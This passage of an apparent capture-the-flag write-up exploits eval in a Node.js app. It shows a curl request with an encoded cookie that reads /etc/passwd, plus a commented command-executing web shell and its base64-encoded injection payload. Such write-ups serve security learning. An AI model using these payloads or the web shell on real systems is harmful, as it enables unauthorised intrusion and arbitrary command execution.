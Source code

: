 ```bash
# -b allows us to specify a cookie to curl.  The name of the cookie is profile
curl -v -b "profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6ImNhdCAvZXRjL3Bhc3N3ZCJ9" "http://10.10.10.85:3000/?index"
```
![Curl output](screenshots/4_etc_passwd_cookie.PNG)

This has revealed a few interesting pieces of information:

    * The eval function is being used in this application.
    * The application is running from /home/sun/server.js
    * One of the users on the system has a user name of sun.
    * The num field may be subject to a regex.

I am not a JavaScript / node.js expert by any means, so I played around trying to write enough JavaScript to read arbitrary files from the target or spawn a reverse shell, but I could not get anything to work.  I found a site that had a mini web server written in node.js that would allow execution of arbitary shell commands.  The site is here<sup>[2]</sup>.

Here is the mini web server.  I added some comments so we can make sense of what it is doing.  These comments are not necessary to get things to work.
```javascript
// Activate the server after 8000 ms (8 seconds)
setTimeout(function()
    {
        // Create the server with two arguments: req (the original request) and res (the response)
        require('http').createServer(function (req, res) {
            // Add headers to the response: the response code (HTTP 200 - OK) and set the content type to plain text
            res.writeHead(200, {"Content-Type": "text/plain"});
            /* Execute the value of the cmd parameter.  We would invoke it like so:
               http://10.10.10.85:8002/?cmd=<whatever command we want to run>
            
               When the command is done, finish the request the second parameter to exec (the function)
               is a callback function that takes three parameters:
               e: any errors
               s: the contents of standard output
               st: the contents of standard error
               
               When the function is called, it puts the contents of standard output (s) into the HTTP response and closes the response.
            */
            require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);});
        }).listen(8002); // listen on port 8002
    // End the statement and comment out anything that comes after it
    }, 8000);//
```
To get the server to execute it, we have to substitute it for the value of the num parameter and Base64 encode the entire thing:
```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6InNldFRpbWVvdXQoZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2h0dHAnKS5jcmVhdGVTZXJ2ZXIoZnVuY3Rpb24gKHJlcSwgcmVzKSB7IHJlcy53cml0ZUhlYWQoMjAwKTtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhyZXF1aXJlKCd1cmwnKS5wYXJzZShyZXEudXJsLCB0cnVlKS5xdWVyeVsnY21kJ10sIGZ1bmN0aW9uKGUscyxzdCkge3Jlcy5lbmQocyk7fSk7IH0pLmxpc3Rlbig4MDAyKTsgfSwgODAwMCk7Ly8ifQ==
```

[1]: https://expressjs.com/ "Express JS Framework"
[2]: http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html "Web Security Geeks - Penetration Testing Node.js Application"
[3]: https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback "Node.js Documentation: child_process"